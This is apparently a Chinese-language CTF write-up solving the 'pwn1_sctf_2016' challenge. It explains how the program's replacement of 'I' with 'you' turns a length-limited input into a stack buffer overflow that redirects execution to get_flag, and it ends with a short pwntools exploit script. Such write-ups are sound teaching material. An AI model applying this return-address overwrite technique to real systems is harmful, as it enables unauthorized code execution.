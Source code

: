 首先还是查看一下安全机制

![](https://static.hack1s.fun/images/2021/02/06/image-20200521154003798.png)

发现开启了NX，栈上禁止执行，但是这些简单的题目一般也用不到

拖到IDA里面看看

main函数直接调用了vuln

![image-20200521154215022](https://static.hack1s.fun/images/2021/02/06/image-20200521154215022.png)

vuln里面就是一个printf一个fgets

中间对gets的输入做了一些处理

![image-20200521160749065](https://static.hack1s.fun/images/2021/02/06/image-20200521160749065.png)

输入中的I会被替换为you

最后又使用strcpy填充回去s的位置

![image-20200521161353701](https://static.hack1s.fun/images/2021/02/06/image-20200521161353701.png)



对输入本身存在长度限制，多于32长度的内容会被丢弃

![image-20200521161302184](https://static.hack1s.fun/images/2021/02/06/image-20200521161302184.png)

但是这个s数组和ebp相距0x3c，60显然是超过32的

![image-20200521161252038](https://static.hack1s.fun/images/2021/02/06/image-20200521161252038.png)

所以我们需要通过填充I，利用这个转换为you的机制填充中间的内容，最后覆盖返回地址为get_flag

![image-20200521161437093](https://static.hack1s.fun/images/2021/02/06/image-20200521161437093.png)

构造出exp

```python
from pwn import *

io = process('./pwn1_sctf_2016')
payloads = 'I'*20+'A'*4+p32(0x08048F0D)

io.sendline(payloads)
io.interactive()
```

